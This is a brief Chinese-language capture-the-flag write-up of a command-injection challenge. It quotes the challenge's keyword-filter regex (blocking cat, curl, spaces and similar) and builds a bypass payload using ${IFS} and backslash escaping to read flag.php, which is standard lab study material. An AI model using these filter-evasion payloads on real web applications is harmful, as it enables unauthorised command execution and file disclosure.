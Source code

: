 分析

![image-20240120133631532](image/image-20240120133631532.png)

过滤了

```
("/\;|cat|flag| |[0-9]|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i"
```

这次过滤了尖括号，但$没有过滤，所以空格过滤可以用${IFS}

查看flag位置

![image-20240120133911489](image/image-20240120133911489.png)

构建命令

```
?c=ta\c${IFS}fl\ag.php||
```

发现flag换位置了
